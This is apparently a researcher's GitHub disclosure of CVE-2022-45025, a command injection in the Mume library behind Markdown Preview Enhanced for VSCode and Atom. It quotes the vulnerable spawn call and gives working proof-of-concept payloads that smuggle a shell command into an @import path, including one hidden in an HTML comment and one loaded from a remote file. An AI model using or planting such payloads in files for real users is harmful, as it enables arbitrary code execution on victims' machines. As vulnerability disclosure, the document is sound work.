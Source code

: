 # CVE-2022-45025
Command injection via PDF import in Markdown Preview Enhanced ([VSCode](https://marketplace.visualstudio.com/items?itemName=shd101wyy.markdown-preview-enhanced), [Atom](https://atom.io/packages/markdown-preview-enhanced))

## Description

The [Mume](https://github.com/shd101wyy/mume) markdown tool library was vulnerable to command injection due to use of `spawn` command with `{shell: true}` option. This could allow an attacker to achieve arbitary code execution by tricking victim into opening specially crafted Markdown file using VSCode or Atom. The library powers Markdown Preview Enhanced plugin for both [VSCode](https://github.com/shd101wyy/vscode-markdown-preview-enhanced) and [Atom](https://github.com/shd101wyy/markdown-preview-enhanced).


Vulnerable [code snippet](https://github.com/shd101wyy/mume/blob/7135d7606a6a57de6e2372c26a2f16bb98ecf2b2/src/pdf.ts):
```js
const task = spawn(
      "pdf2svg",
      [
        `"${pdfFilePath}"`,
        `"${path.resolve(svgDirectoryPath, svgFilePrefix + "%d.svg")}"`,
        "all",
      ],
      { shell: true },
    )
```

## Proof of Concept

The following Markdown document allows an attacker to execute arbitary command:

```md
@import "$(open -a Calculator > /dev/null | exit 0)hello.pdf"

The following comment will be recognised by MPE as valid "@import" command:

<!-- @import "$(open -a Calculator > /dev/null | exit 0)hello.pdf" -->
```

Alternatively, the payload could be executed from external source:
```md
<!-- @import "https://raw.githubusercontent.com/yuriisanin/CVE-2022-45025/main/examples/malicious.md" -->
```

**DEMO for both [VSCode](https://www.youtube.com/watch?v=bnK5DPdb5JU) and [Atom](https://www.youtube.com/watch?v=WxMVwkYrDzI) on YouTube.**

![vscode-rce-poc-gif](https://github.com/yuriisanin/CVE-2022-45025/blob/c60ece758e623176bc21461ef93604efa15d4e63/assets/mde-rce-short.gif)


## Support

You can follow me on [Twitter](https://twitter.com/SaninYurii), [GitHub](https://github.com/yuriisanin) or [YouTube](https://www.youtube.com/channel/UCLN2EvGxtnucEdrI21PmJZg).
